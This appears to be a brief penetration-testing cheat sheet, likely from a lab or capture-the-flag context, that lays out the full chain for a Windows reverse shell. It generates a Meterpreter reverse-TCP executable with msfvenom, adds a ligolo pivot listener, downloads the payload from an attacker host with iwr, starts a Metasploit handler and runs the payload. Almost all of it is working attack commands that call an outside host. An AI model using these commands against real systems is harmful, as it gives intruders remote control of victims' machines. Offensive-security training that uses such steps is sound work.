 msfvenom
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.219.254 LPORT=3326 -f exe -o pe.exe
```

ligolo proxy add
```
listener_add --addr 0.0.0.0:3326 --to 0.0.0.0:3326
```

download payload
```
iwr http://172.16.219.254:1235/pe.exe -outfile pe.exe
```

start multi/handler
```
msfconsole -q -x 'use exploit/multi/handler;set LHOST 0.0.0.0;set LPORT 3326;set payload windows/x64/meterpreter/reverse_tcp;run'
```

start revshell
```
.\pe.exe
```
